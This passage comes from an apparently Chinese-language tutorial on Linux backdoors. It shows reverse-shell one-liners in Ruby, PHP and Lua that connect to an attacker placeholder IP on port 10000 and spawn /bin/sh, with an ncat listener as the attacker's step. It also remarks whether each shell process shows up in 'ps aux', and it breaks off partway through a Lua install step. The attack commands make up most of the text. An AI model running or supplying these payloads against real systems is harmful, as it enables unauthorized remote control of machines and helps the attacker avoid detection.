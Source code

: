 ```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
ruby -rsocket -e'f=TCPSocket.open("[ATTACKER-IP]",10000).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-7.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-6.png)

反弹shell进程在`ps aux`中不能检索到。

**原理**

### 0x06 反弹shell：php

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
php -r '$sock=fsockopen("[ATTACKER-IP]",10000);exec("/bin/sh -i <&3 >&3 2>&3");'
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-9.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-8.png)

反弹shell进程在`ps aux`中可以检索到。

注：代码假设TCP连接的文件描述符为`3`。

**原理**

### 0x07 反弹shell：lua

```bash
// Step1: Attacker
ncat -l -p 10000
// Step2: Victim
lua -e "require('socket');require('os');t=socket.tcp();t:connect('[ATTACKER-IP]','10000');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

靶机上没有`lua`，我用

```bash
apt-get install lua5.2
```
